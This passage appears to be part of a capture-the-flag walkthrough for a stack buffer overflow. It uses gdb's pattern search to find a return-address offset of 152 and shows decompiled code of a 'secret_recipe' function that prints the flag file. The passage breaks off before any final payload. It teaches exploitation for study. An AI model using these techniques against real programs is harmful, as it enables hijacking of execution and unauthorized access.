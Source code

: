 
Naturally, the program died from a `SIGSEGV`, aka a Segmentation Fault.

This is fine for now, whats important is the string thats in the `$rsp` register!

Just as we used `pattern create` to produce the original string, use `pattern search` to determine the offset.

Copy-paste the string value of `$rsp` into the gdb command line:
```
(gdb) pattern search taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Searching 'taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'
[+] Found at offset 152 (big-endian search) 
```
- offset `152` write this down, it will be important later!

## 4: The arbitrary function to return to
The necessary offset has been determined, now we need to figure out where to 
redirect program flow.

The classical, but somewhat complicated route, is to pull off an exploit 
known as ["Return-to-LibC"](https://en.wikipedia.org/wiki/Return-to-libc_attack) 
to pop a shell, however this binary provides a simpler way of capturing the flag.

Looking in the symbol table, there is this odd function `secret_recipe`. 
 
Disassembly for this function is provided below:
```c

void secret_recipe(void)

{
  char data [144];
  FILE *ifile_handle;
  size_t data_len;
  
  data_len = 0;
  ifile_handle = fopen("flag.txt","r");
  data_len = fread(data,1,0x80,ifile_handle);
  data[data_len] = '\0';
  puts(data);
  return;
}
```

How convenient, there is a function here that prints out the flag!

Instead of needing to go through the complexity of ROP'ing our way into libc for 
a shell, simply redirect the program into `secret_recipe`!

### Obtaining the address of `secret_recipe`
The last big piece of this puzzle is obtaining a pointer to this function.

Its possible to get this out of Ghidra, but its not immediately obvious so I 
prefer to use a different tool: `objdump`.
